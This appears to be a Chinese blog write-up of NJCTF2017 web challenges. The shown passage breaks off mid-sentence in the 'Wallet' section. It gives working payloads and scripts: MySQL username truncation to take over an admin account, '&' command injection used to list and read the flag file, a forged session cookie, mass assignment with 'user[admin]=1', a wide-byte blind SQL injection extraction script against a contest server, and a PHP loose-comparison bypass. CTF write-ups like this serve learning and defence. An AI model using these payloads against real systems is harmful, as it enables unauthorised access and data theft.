<!--yml
category: 未分类
date: 2022-04-26 14:40:59
-->

# NJCTF2017 线上赛 web 题解 By Assassin_Assassin__is__me的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_35078631/article/details/62980648](https://blog.csdn.net/qq_35078631/article/details/62980648)

## **Login**

打开以后出现一个登陆页面，下面有一个注册用户的链接。

<center></center>

打开申请界面

<center></center>

看着申请的密码还有要求不知道是不是题目的关键点。
我们先申请一个账号登陆一下看看，发现是这样的

<center></center>

尝试申请一下admin发现已经存在了

<center></center>

那么本题的知识点是mysql变量名在输入太长的时候会被截断！！那么我们就可以构造不是admin但是阶段后是admin的用户名

```
payload：
username=admin                                                                  a
pass=123QWEasd
```

这是登陆的截断，就相当于我们修改了admin的密码一样，然后用账号admin和密码123QWEasd登陆就可以成功了！

### **Get Flag**

开始是上传一个文件比如1.jpg可以得到一个图片，然后我们随便输入一个东西，比如说123，然后我们可以得到如下的东西

<center></center>

然后是一个base64解码嘛，然后解密一下发现是这样的

```
cat: images/123: No such file or directory
```

然后我们发现就是cat查询，中间使用bash的通配符！然后可以控制命令行。有什么; * ,等都被过滤了，但是&没有被过滤，所以可以通过这个加入命令，不断用ls得到目录，当前没有，向上目录搜索，在构造`11.jpg&ls ../../../` 解码时时候发现如下：

```
cat: images/11.jpg: No such file or directory
9iZM2qTEmq67SOdJp%!oJm2%M4!nhS_thi5_flag
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

估计就是第一个了，于是我们构造`11.jpg&cat ../../../9iZM2qTEmq67SOdJp%!oJm2%M4!nhS_thi5_flag` 在解码后得到答案！

<center></center>

值得一提的是，学习一发bash的通配符吧
[bash之通配符](http://blog.csdn.net/astrotycoon/article/details/50814031) 

### **Chall I**

google真是个好东西，搜索一下hack nodejs就找到了一篇思路相似的文章[快来学习吧！](https://www.smrrd.de/nodejs-hacking-challenge-writeup.html) 基本上思路完全相同，真是学习到了！

首先线下的网址是[http://218.2.197.235:23729/](http://218.2.197.235:23729/) 看到的就是两个页面而已，然后我们观察源码根本什么都没有。然后打开F12看一下返回值。既然是讲js的，我们可以看到有angular.js和main.js，打开看一看第一个似乎是配置文件，和我们登陆的系列流程没有什么关系，但是我们再看main.js如下

```
var passwordApp = angular.module('passwordApp', []);

passwordApp.controller('PasswordCtrl', function ($scope, $http, $window) {
  $scope.password = '';
  $scope.login = {};

  $scope.enter_password = function() {
    $http.post('/login', {password: $scope.password}).then(function(response) {
            console.log(response.data);
            if(response.data.status === 'ok') {
                $window.location.href = "/admin";
            }
            $scope.login = response.data;
        }, function(response) {
            console.log(response.data);
            $scope.login = response.data;
        });
    }

    $scope.logout = function() {
        $http.get('/logout').then(function(response) {
            if(response.data.status === 'ok') {
                $window.location.href = "/admin";
            }
        }, function(response) { });
    }

});
```

然后我们似乎找到了其他的页面吧！

<center></center>

访问一下可以看到

<center>
</center>

admin是可以访问的，其他两个访问不到。
尝试登陆一下看看效果，登陆后network中多了一个login，打开看一下

<center></center>

这里有个东西很有意思

<center></center>

eyJhZG1pbiI6Im5vIn0=解码为{“admin”:”no”}，好像改成yes就行了？但是这里是不行的!所以还是想想其他办法。

然后干啥？？？居然是网上找源码，在github上找，搜索请登录,bibibibibibibibibibibibibibi~找到一个代码！还真是老司机

<center></center>

到处看看其实最主要的代码在app/routes/index.js上

```
var express = require('express');
var config = require('../config');
var escape = require('escape-html');  
var crypto = require('crypto');
var reg = /^[0-9]*$/;
var router = express.Router();

router.get('/', function(req, res, next) {
    res.render('index', { title: 'index', admin: req.session.admin });
});

router.get('/admin', function(req, res, next) {
    res.render('admin', { title: 'admin', admin: req.session.admin, flag: config.secret_password });
});

router.get('/logout', function(req, res, next) {
    req.session = null;
    res.json({'status': 'ok'});
});

router.post('/login', function(req, res, next) {
    if(req.body.password !== undefined) {
        var endata = crypto.createHash('md5').update(req.body.password).digest("hex");
        if (reg.test(endata)) {
            var pwd = parseInt(endata.slice(0,3),10);
            password = new Buffer(pwd);
            if(password.toString('base64') == config.secret_password) {
                req.session.admin = 'yes';
                res.json({'status': 'ok' });
            }else{
                res.json({'status': 'error', 'error': 'password wrong: '+password.toString()});
            }
        }else{
            res.json({'status': 'error', 'error': 'password wrong: '+endata.toString()});
        }
    } else {
        res.json({'status': 'error', 'error': 'password missing' });
    }
});

module.exports = router;10:
        print temp 
```

我们观察首先将传送值MD5后，然后用reg正则表达式过滤，只要找到一个串MD5之后都是数字即可，爆破一下得到wzx2，爆破脚本

```
import hashlib
s=['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','1','2']
for s1 in s:
    for s2 in s:
        for s3 in s:
            for s4 in s:
                tmp1=hashlib.md5(s1+s2+s3+s4).hexdigest()
                flag=1
                for i in tmp1:
                    if i<'0'or i>'9':
                        flag =0
                        break
                if flag == 1:
                    print s1+s2+s3+s4,tmp1 
```

然后我们看到
var pwd = parseInt(endata.slice(0,3),10); #将前三位数转成10进制数
password = new Buffer(pwd); #申请一个pwd大小的缓冲区

这里查找知道js这样看是会缓冲区溢出的。我们post wzx2发现果真会有返回值！
[Buffer(num)缓冲区溢出资料](https://github.com/nodejs/node/issues/4660)
然后疯狂post就会得到答案了。

本题简化了，那个链接上的更加难一些，很值得进一步学习一下！于是还有chall II

### **chall II**

我们注意上面的代码，隐隐约约觉得admin还没登陆，还没完，要想登陆admin又如下

```
router.get('/admin', function(req, res, next) {
    res.render('admin', { title: 'admin', admin: req.session.admin, flag: config.secret_password });
});
```

既然说了用了HMAC维护了，那么一定是用到了加密算法吧，那么猜测seesion_keys加上上一个flag，然后设置admin默认状态为yes能否绕过呢？本地尝试（按找到的网站也可以尝试）

本地搭建然后修改默认为admin:yes，把secret_key改成NJCTF{P1e45e_s3arch_th1s_s0urce_cod3_0lddriver}之后登陆，得到session和session.sig 2分别为session=eyJhZG1pbiI6InllcyJ9; session.sig=DLXp3JcD1oX3c8v4pUgOAn-pDYo;

这里说一下网上的writeup基本上都没讲什么，对于新手无疑是痛苦的！真正需要做的下载nodejs，用软件包一路安装即可！然后配置环境，简单一点，在app.js中加入app.listen(2000);表示nodejs网页使用2000端口，然后访问本地127.0.0.1：2000即可！

<center></center>

<center></center>

解码即可

<center></center>

### **blog**

本题赛后补题没想到居然找不到源码，太菜了…原比赛的时候说题目给出了源码？现在都不知道在哪儿…总之github搜索 “这里乜有你想要的帮助”找到了源代码。

观察一下整个网站，发现是个简易的博客，查看源码文件中发现 /db/schema.rb中有一个申请创建表的东西

<center></center>

发现创建表的函数中有一个admin选项，而且输入的默认值都是false。创建表就是申请user吧，在看申请账号界面。

<center></center>

发现没有admin那一项啊，那么如果加上是不是就成了呢？找啊找找到了这个！

<center></center>

下面申请账号，然后构造post包加上user[admin]=1

<center></center>

然后看右边的返回值发现账号是申请成功的，然后登陆，在删除账号的这里发现flag

<center></center>

### **come on**

题目本身一看就懂了，但是感觉自己做就是做不出来，脑洞不够，而且宽字节注入真的也是好久不做了！

首先输入1查询一下，发现很多股票就出来了。然后构造各种乱七八糟的发现根本没什么回显，那么就是盲注了，然后我们看一下宽字节的构造`http://218.2.197.235:23733/index.php?key=1%df%27||1=1%23` 然后发现有回显，那么我们就可以构造或后面的1=1盲注爆出他字段。

```
 import requests
import random
import hashlib

s = requests.Session()

def get_data(url):
    r = s.get(url)
    return r.text

def get_flag():
    url='http://218.2.197.235:23733/index.php?key=123%df%27||'
    flag = ""

    payload = "(select(right(left((select(flag)from(flag)),{}),1)))=binary({})%23"

    for j in range(1,33):
        for i in range(20,125):
            r = get_data(url + payload.format(str(j), hex(i)))

            if "002265" in r:
                flag +=chr(i)
                print flag
                break

get_flag()
```

### **Wallet**

首先不知道要干啥，他说cookie被保护了，然而并不知道机制是什么，然后看公告发现说压缩包密码是弱口令，然后就找压缩包呗！就是用工具扫描一下目录得到结果。我用的是dirfuzz-master，可以给分享一下

[dirfuzz-master](http://download.csdn.net/my)

<center></center>

然后就是得到的www.zip，提示说密码是弱口令？但是用啥工具爆破并没有结果啊，然后根据赛棍的经验发现密码是njctf2017.打开后的到源码。

但是得到了什么玩意儿…显然是经过加密的，加密方式为phpjm，找一个解密的网站得到源码

```
<?php
require_once("db.php");
$auth = 0;
if (isset($_COOKIE["auth"])) {
    $auth = $_COOKIE["auth"];
    $hsh = $_COOKIE["hsh"];
    if ($auth == $hsh) {
        $auth = 0;
    } else if (sha1((string)$hsh) == md5((string)$auth)) {
        $auth = 1;
    } else {
        $auth = 0;
    }
} else {
    $auth = 0;
    $s = $auth;
    setcookie("auth", $s);
    setcookie("hsh", sha1((string)$s));
}
if ($auth) {
    if (isset($_GET['query'])) {
        $db = new SQLite3($SQL_DATABASE, SQLITE3_OPEN_READONLY);
        $qstr = SQLITE3::escapeString($_GET['query']);
        $query = "SELECT amount FROM my_wallets WHERE id=$qstr";
        $result = $db->querySingle($query);
        if (!$result === NULL) {
            echo "Error - invalid query";
        } else {
            echo "Wallet contains: $result";
        }
    } else {
        echo "<html><head><title>Admin Page</title></head><body>Welcome to the admin panel!<br /><br /><form name='input' action='admin.php' method='get'>Wallet ID: <input type='text' name='query'><input type='submit' value='Submit Query'></form></body></html>";
    }
} else echo "Sorry, not authorized.";
```

首先需要利用(sha1((string)$hsh) == md5((string)$auth))中==的漏洞，构造0exxxx的数字(x必须是10进制数字)，达到绕过的目的（实际上是科学计数法）。实验

